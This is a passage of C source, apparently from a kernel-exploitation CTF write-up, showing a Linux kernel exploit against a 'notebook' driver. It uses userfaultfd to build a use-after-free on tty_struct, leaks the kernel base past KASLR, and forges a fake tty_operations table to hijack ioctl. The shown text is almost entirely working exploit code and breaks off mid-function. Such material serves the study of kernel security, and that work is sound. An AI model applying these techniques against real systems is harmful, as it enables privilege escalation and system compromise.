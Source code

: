 ```c
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    note_add(0, 0x10, "arttnba3rat3bant");
    note_edit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
    pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    note_read(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        err_exit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = (tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                    ? (tty_ops - PTY_UNIX98_OPS)
                    : tty_ops - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = (void*) (kernel_offset + WORK_FOR_CPU_FN);
    note_add(1, 0x50, temp_page);
    note_edit(1, sizeof(struct tty_operations), temp_page);
    note_wriite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    note_gift(&kernel_notebook);
    tty_struct_addr = (size_t) kernel_notebook[0].ptr;
```